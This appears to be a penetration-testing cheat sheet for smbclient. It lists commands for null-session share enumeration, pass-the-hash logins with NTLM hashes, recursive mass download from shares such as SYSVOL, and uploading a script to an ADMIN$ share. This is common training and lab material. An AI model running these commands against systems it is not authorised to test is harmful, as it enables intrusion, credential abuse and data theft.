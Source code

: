 - https://www.samba.org/samba/docs/current/man-html/smbclient.1.html
- Client that can "talk" to an SMB/CIFS server
- Operations
  - Upload/download functionality
  - Retrieving directory information


Null session: `smbclient -N -L (TARGET IP) -m SMB2`
Null session mount: `smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -m SMB2`
User session mount: `smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -U (USER) -m SMB2`
Pass the hash: `smbclient --user=(TARGET USERNAME) --pw-nt-hash -m smb3 \\\\(TARGET IP ADDRESS)\\(TARGET SHARE)\\ (NTLM HASH)`

```
smb> get "filename with or without spaces.txt"`
```

```
smbclient -L \\WIN7\IPC$ -I 192.168.13.218
smbclient \\192.168.13.236\some-share -o user=root,pass=root,workgroup=BOB
```

```
smbclient -L $ip
smbclient -L $ip -U guest -p 445 ""
smbclient -L $ip -U $username -p 445
   password: <prompt>
smbclient -L //server/share
smbclient -L //server/share password options
```

```
smb: \> RECURSE ON
smb: \> PROMPT OFF
smb: \> mget *
```

Upload file:
```
smbclient //192.168.31.142/ADMIN$ -U "nobody"%"somepassword" -c "put 40280.py"
```

```
  Pass-the-hash:
    smbclient -U testuser%<nthash> --pw-nt-hash -L 192.168.0.1
    smbclient \\\\192.168.0.1\\domain -U testuser%<nthash> --pw-nt-hash

  Map drives:
    smbclient \\\\192.168.0.1\\sharename$
    smbclient \\\\192.168.0.1\\sharename$ -U root%
```

Recursive download: https://superuser.com/questions/856617/how-do-i-recursively-download-a-directory-using-smbclient

```
smbclient ‘\10.11.1.220\SYSVOL’ -U=’contoso/jane%SuperPassword^’ -c ‘prompt OFF;recurse ON;lcd ‘./’;mget *’
```
